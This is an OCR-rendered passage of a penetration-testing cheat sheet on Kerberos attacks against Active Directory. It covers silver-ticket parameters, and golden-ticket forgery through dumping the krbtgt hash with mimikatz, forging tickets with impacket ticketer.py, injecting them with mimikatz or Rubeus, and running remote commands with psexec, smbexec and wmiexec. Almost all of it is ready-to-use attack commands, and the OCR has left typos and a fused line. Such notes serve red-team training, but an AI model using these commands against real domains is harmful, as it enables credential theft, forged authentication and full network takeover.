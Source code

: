                 -   user: Username, can be any user, even invalid one will work.

                -   domain: The domain name

                -   sid: Domain sid, can be obtained via many methods, whoami /user is one.

                -   target: Target machine

                -   rc4: NTLM hash of the target service

                -   aes{128/256} : Aes key of the target service

                -   Service: The service name, cifs as am accessing filesharing service

        -   **Inject the ticket**

            -   mimikatz \# kerberos::ptt \<ticket\_kirbi\_file\>

            -   .\\Rubeus.exe ptt /ticket:\<ticket\_kirbi\_file\>

    -   **Golden ticket**

        -   **Extarcting Kerberos NTLM hash**

            -   mimikatz \# lsadump::lsa /inject /name:krbtgt

        -   **Lmpacket**

            -   **To generate the TGS with NTLM**

            -   python ticketer.py -nthash \<ntlm\_hash\> -domain-sid \<domain\_sid\> -domain \<domain\_name\> \<user\_name\>

            -   **To generate the TGS with AES key**

            -   python ticketer.py -aesKey \<aes\_key\> -domain-sid \<domain\_sid\> -domain \<domain\_name\> \<user\_name\>

            -   **Set the ticket for impacket useexport KRB5CCNAME=\<TGS\_ccache\_file\>**

            -   **Execute remote commands with any of the following by using the TGT**

            -   python psexec.py \<domain\_name\>/\<user\_name\>@\<remote\_hostname\> -k -no-pass

            -   python smbexec.py \<domain\_name\>/\<user\_name\>@\<remote\_hostname\> -k -no-pass

            -   python wmiexec.py \<domain\_name\>/\<user\_name\>@\<remote\_hostname\> -k -no-pass

        -   **Make a golden ticket with mimikatz**

            -   kerberos::golden /domain:jnkfo.lab /sid:S-1-5-21-3178339118-3033626349-2532976716 /rc4:{krbtgt\_hash} /user:invalidusername /ticket:golden.kirbi /ptt

            -   kerberos::golden /domain:jnkfo.lab /sid:S-1-5-21-3178339118-3033626349-2532976716 /aes{128/256}:{krbtgt\_aes\_key } /user:invalidusername /ticket:golden.kirbi /ptt

                -   No new options here just removed the /service option used in the silver ticket.

        -   **Inject the ticket**

            -   mimikatz \# kerberos::ptt \<ticket\_kirbi\_file\>

            -   .\\Rubeus.exe ptt /ticket:\<ticket\_kirbi\_file\>

    -   **Skeleton key**

